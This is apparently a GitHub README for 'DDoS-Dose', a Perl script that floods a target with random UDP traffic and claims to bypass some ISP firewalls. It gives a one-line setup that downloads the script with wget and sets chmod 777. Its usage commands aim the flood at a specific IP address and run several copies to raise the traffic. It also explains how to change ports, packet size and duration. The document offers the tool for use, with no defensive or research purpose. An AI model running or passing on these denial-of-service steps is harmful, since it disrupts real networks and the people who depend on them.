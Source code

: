 # Script for DDoS-Dose !

## Features

- Generate Random UDP Traffic
- To Random Port & from Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp%20%7C%20ID%3AA3/random-udp.pl && chmod 777 *

```
## Usage

```
perl random-udp.pl 162.241.27.65
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65
---> Multithreading Causing Issue
```
```
- This script pre-configured to send traffic to random port, (Line8) Can be Changed & from random port (Line9)
- This script pre-configured to send random packet size, (Line68), Can be changed!
- Can adjust time by "timeout 30" command,
```

## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in
